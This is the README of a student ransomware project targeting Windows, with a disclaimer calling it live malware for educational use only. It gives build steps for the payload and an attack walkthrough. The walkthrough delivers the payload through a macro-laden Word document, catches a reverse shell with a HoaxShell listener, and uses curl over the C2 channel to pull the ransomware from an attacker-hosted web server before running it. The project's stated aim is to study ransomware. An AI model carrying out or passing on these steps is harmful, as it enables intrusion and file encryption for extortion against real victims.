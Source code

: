 # Disclaimer: Educational Use Only
This is a live ransomware, and can be activated. Source code has been provided, and safety checks have been builtin and processes are non-distructive. However, the malware can easily be activated and changed, and therefore use responsibily. This repository has been made private, and should only be accessed by the author and trusted individuals. 

If you are trusted, do not share this repository around. 

This ransomware is created strictly for educational purposes and is intended to demonstrate how ransomware works in a controlled environment. It is designed to help cybersecurity professionals, students, and researchers understand and learn about the mechanics of ransomware in order to improve defenses against such attacks.

By downloading or using this software, you agree to the following:

- You will use this tool in a legal and ethical manner, strictly for educational and research purposes in environments where you have permission.
- You acknowledge that deploying this software on systems without permission is illegal and may result in severe penalties under applicable laws.
- The developer is not responsible for any misuse of this software.
- Use responsibly, and always in compliance with local laws and regulations.

Make sure you ONLY COMPROMISE YOUR OWN SYSTEM, OR WITH WRITTEN PERMISSION. And do not repurpose this educational ransomware for malicious purposes. I will take no responsibility for any legal repurcussions.

# Something Awesome Ransomware - Simple (SARS)
This repository is created to host my Something Awesome Project for the course COMP6841. It is a ransomwware, designed to educate myself and others in malware developement, and the ease in which it can cause damage. It has been built to target Windows Machines, due to the majority of the world utilising a Windows System (and I also thought it would be more fun to target).

The ransomware creates a foothold in the system using a malicious Word Document with embedded macros. Two strains/variants of this ransomware has been included - one to establish a C2 connection with a machine, the other as a fire-and-forget ransomware. Files are copied and encrypted, leaving the original file unscathed.

# Installation
Run `git clone <insert link>` in your local terminal to clone the repository.

Install dependencies. These are:
- HoaxShell: https://github.com/t3l3machus/hoaxshell
- OpenSSL library for Linux:
  1. Run
```
wget https://www.openssl.org/source/openssl-1.1.1w.tar.gz
tar -xvzf openssl-1.1.1w.tar.gz
cd openssl-1.1.1w
```
2. Run `./Configure mingw64 no-asm shared --cross-compile-prefix=x86_64-w64-mingw32-` (ensure that MingGW is installed)
3. Run `make`
4. Run `make install DESTDIR=/path/to/target/directory`, preferably in the same directory as respository.
- MinGW: run `sudo apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64 wine64`
- Word (Attack vector)
  
To compile the code: `x86_64-w64-mingw32-gcc -o Explore.exe <file>.c -I./path/to/openssl/include -L.path/to/openssl -lssl -lcrypto -lws2_32 -lwsock32 -lcrypt32 -static`

# Usage/Demostration (with C2 capabilities)
## Attacking
1. Create a HoaxShell listener on an attacking machine using the command `python3 hoaxshell.py -s <ip> -r -g`. Please refer to the HoaxShell documentation above to learn more about this tool
2. Activate the Word document (and its macros) on the victim machine.
3. Confirm that a connection has been established and a reverse shell created.
4. Create a web server on your own machine to host the files with `python3 -m http.server <insert port>`
5. Use `curl` to download your files onto the target machine with the C2.
6. Use `./<ransomware file name>` to activate.
Note: do not delete the key file. This is necessary for decryption.

## Decrypting
1. Ensure that the key file is present.
2. Compile the decryption software and run it on the victim machine.

Note: the decryption does not support multiple rounds of encryption.
